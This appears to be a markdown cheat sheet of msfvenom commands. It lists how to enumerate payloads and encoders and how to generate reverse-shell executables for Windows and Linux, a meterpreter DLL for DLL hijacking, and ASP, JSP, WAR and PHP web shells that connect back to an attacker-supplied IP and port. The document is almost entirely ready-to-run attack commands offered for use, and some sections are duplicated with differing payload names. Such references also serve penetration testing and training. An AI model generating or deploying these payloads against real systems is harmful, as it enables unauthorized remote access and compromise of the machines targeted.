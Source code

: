 ```yaml
---
title: MSFVenom CheatSheet 
description: CheatSheet
---
```


### Table of Contents

- [MsfVenom Commands](#msfvenom-commands)
  - [List all payloads available in Msfvenom](#list-all-payloads-avaible-in-msfvenom)
  - [List all encoders](#list-all-encoders)
- [Payloads for Windows](#payloads-for-windows)
- [DLL Hijacking](#dll-hijacking)
- [Payloads for Linux](#payloads-for-linux)
- [Web Payloads](#web-payloads)

### MsfVenom Commands

#### List all payloads avaible in Msfvenom
```java
msfvenom -l payloads #Payloads
```
#### List all encoders
```java
msfvenom -l encoders #Encoders
```

### Payloads for Windows

```bash
x86 msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Payloads for Windows

```bash
x86 msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64 msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### DLL Hijacking
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f dll > payload.dll
```


### Payloads for Linux

```bash
x86 msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

### Payloads for Linux

```bash
x86 msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64 msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

### Web Payloads

```bash
asp msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```


